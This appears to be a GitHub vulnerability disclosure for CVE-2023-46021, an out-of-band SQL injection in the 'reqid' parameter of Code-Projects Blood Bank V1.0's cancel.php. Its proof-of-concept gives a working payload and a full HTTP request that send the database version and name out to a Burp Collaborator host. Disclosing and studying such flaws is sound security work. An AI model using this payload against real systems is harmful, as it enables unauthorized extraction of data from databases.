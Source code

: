 # CVE-2023-46021-Code-Projects-Blood-Bank-1.0-OOB-SQL-Injection-Vulnerability
+ Exploit Author: ersinerenler
# Vendor Homepage
+ https://code-projects.org/blood-bank-in-php-with-source-code
# Software Link
+ https://download-media.code-projects.org/2020/11/Blood_Bank_In_PHP_With_Source_code.zip
# Overview
+ Code-Projects Blood Bank V1.0 is exposed to a critical security vulnerability involving Out-of-Band (OOB) SQL Injection through the 'reqid' parameter in the /cancel.php file. This vulnerability arises due to a lack of proper protection mechanisms, enabling attackers to abuse the parameter and conduct OOB SQL injection attacks via Burp Collaborator. This may result in unauthorized access and extraction of sensitive information from the databases.
# Vulnerability Details
+ CVE ID: CVE-2023-46021
+ Affected Version: Blood Bank V1.0
+ Vulnerable File: /cancel.php
+ Parameter Name: reqid
+ Attack Type: Local
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-46021
+ https://nvd.nist.gov/vuln/detail/CVE-2023-46021
# Description
+ The 'reqid' parameter in the /cancel.php file of Code-Projects Blood Bank V1.0 is susceptible to Out-of-Band SQL Injection. This vulnerability stems from inadequate protection mechanisms, allowing attackers to exploit the parameter using Burp Collaborator to initiate OOB SQL injection attacks. Through this technique, an attacker can potentially extract sensitive information from the databases.

# Proof of Concept (PoC) : 
+ Intercept the request to cancel.php via Burp Suite
+ Inject the payload to the vulnerable parameters
+ Payload: `4'%2b(select%20load_file(concat('\\\\',version(),'.',database(),'.collaborator-domain\\a.txt')))%2b'`
+ Example request for `reqid` parameter

```
---
GET /bloodbank/file/cancel.php?reqid=4'%2b(select%20load_file(concat('\\\\',version(),'.',database(),'.7mus27hip62tznk3gy4n7z3fo6uxin6c.oastify.com\\a.txt')))%2b' HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://localhost/bloodbank/sentrequest.php?msg=You%20have%20requested%20for%20blood%20group%20A+.%20Our%20team%20will%20contact%20you%20soon.
Cookie: PHPSESSID=<some-cookie-value>
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
---
```
+ Database and version information was seized via Burp Suite Collaborator
<img width="1447" alt="image" src="https://github.com/ersinerenler/CVE-2023-46021-Code-Projects-Blood-Bank-1.0-SQL-Injection-Vulnerability/assets/113091631/89240445-cf5f-4c14-aba5-e3238ca56914">

